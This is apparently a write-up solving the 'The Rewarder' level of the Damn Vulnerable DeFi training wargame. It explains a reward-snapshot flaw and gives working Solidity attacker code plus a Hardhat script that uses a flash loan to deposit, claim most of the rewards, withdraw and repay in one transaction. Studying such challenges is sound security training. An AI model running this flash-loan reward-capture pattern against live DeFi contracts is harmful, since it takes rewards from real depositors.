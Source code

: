 ### [Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/the-rewarder)

### Task 
>There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

>Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

>You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

>By the way, rumours say a new pool has just launched. Isn’t it offering flash loans of DVT tokens?
### Observations

- The `RewarderPool` contract seems to have 100eth in rewards ready to divide by DVT depositors at equal ratio to the relative deposit size.

- The depositor at the end of the round will call `distributeRewards()` which multiplies the `amountDeposited` by `REWARDS`/`totalDeposits` ratio.

- This should be exploitable by calling that flashloan for a VAST amount of DVT at the end of the rewards round, dominating the rewards pool share.

- The `deposit()` function calls `distributeRewards()` so we can imediately `withdraw()` having received the majority of funds, in theory.

- Then payback flashloan within the same transaction.

### Steps
*Hack contract is attached in this repo*

- Create attacker contract to take maximum flashloan:

```

    //Takes flashloan, next attack is on `receivedFlashLoan()`
    function attack() public {
        require(msg.sender == owner, "Only Owner");

        uint256 maxLoanAmount = liquidityToken.balanceOf(address(flashPool));
        flashPool.flashLoan(maxLoanAmount);
    }

```

- On FL received, approve pool to spend my DVT, deposit all DVT to the pool, then withdraw, and pay back FL:

```
function receiveFlashLoan(uint256 amount) public {
        require(
            msg.sender == address(flashPool),
            "Only Flash Loan Pool can access"
        );
        // do things before paying back flashloan

        //approve the rewards pool to take my tokens when I deposit
        liquidityToken.approve(address(rewardPool), amount);

        //deposit to reward pool -> will call to distribute REWARDS
        rewardPool.deposit(amount);

        //withdraw from reward pool
        rewardPool.withdraw(amount);

        //repay flashloan
        SafeTransferLib.safeTransfer(
            address(liquidityToken),
            address(flashPool),
            amount
        );

        //send rewards to owner address
        uint256 rewards = rewardToken.balanceOf(address(this));
        SafeTransferLib.safeTransfer(address(rewardToken), owner, rewards);
    }
```

- execution code: Fast forward time to next round, deploy hack contract and call attack. (All as the player address):
```
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        // Advance time 5 days so that depositors can get rewards
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days

        const RewarderHack = await ethers.getContractFactory('TheRewarderHack', player);
        const rewarderHack = await RewarderHack.deploy(liquidityToken.address, rewarderPool.address, flashLoanPool.address, rewardToken.address);

        await rewarderHack.connect(player).attack();

    });
```
